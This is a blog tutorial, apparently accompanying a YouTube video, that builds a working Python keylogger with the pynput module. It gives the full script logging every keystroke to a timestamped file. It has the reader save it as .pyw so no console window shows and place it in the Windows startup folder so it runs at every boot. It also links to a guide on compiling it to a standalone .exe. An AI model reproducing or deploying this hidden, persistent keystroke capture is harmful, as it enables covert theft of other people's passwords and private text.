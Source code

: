 ```yaml
---
layout: post
title: "Python Keylogger"
date: 2017-12-15
categories: Youtube
tags: Python Keyboard Logging pynput
description: "This is a python keylogger which will work on windows, mac and linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed."
---
```


* content
{:toc}

This is a python keylogger which will work on windows, mac and linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed.

{% include embedYouTube.html content="x8GbWt56TlY" %}

<!-- more -->

## PIP
If you haven't used or setup pip before, go to my tutorial at [{% link _posts/2017-12-13-how-to-setup-pythons-pip.md %}]({{ site.baseurl }}{% link _posts/2017-12-13-how-to-setup-pythons-pip.md %}) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput
We will be using the pynput module to listen to mouse events. To install this module execute ```pip install pynput``` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](/images/how-to-get-mouse-clicks-with-python/pynput1.png)

To double check that it was installed successfully, open up IDLE and execute the command ```import pynput```; no errors should occur.

![Testing pynput](/images/how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Keylogger
Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then setup the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition we want to log using the info method the key type casted to a string.

```python
def on_press(key):
    logging.info(key)
```

Next setup an instance of Listener and define the on_press method in a with statement and then join the instance to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](/images/python-keylogger/pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart
To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](/images/python-keylogger/run.png)

Now type ```shell:startup``` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger
To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right click on this and end the task.

![Python in task manager](/images/python-keylogger/taskmgr.png)

## Final Script
```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(key)

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE
Want to convert this .py to a .exe? Head over to my tutorial at [{{ site.baseurl }}{% link _posts/2017-12-11-convert-.py-to-.exe.md %}]({{ site.baseurl }}{% link _posts/2017-12-11-convert-.py-to-.exe.md %}) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on windows computers without python installed (python is pre-installed on mac and most linux computers)

## FAQ

### 'python' is not recognized as an internal or external command
Python hasn't been installed or it hasn't been installed properly. Go to [{% link _posts/2017-12-13-how-to-setup-pythons-pip.md %}]({{ site.baseurl }}{% link _posts/2017-12-13-how-to-setup-pythons-pip.md %}) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?
They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### What is pynput's GitHub page?
[https://github.com/moses-palmer/pynput](https://github.com/moses-palmer/pynput)

### It doesn't work
Make sure you run the script in IDLE to check for errors you have made

### How can I stop the listener?
As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Shift + Right Click" action it only gives an option for Power Shell
Powershell is fine, don't worry, it does the same stuff and more. Use it.

*Please leave questions and comments related to the video on YouTube as they will be replied to faster there*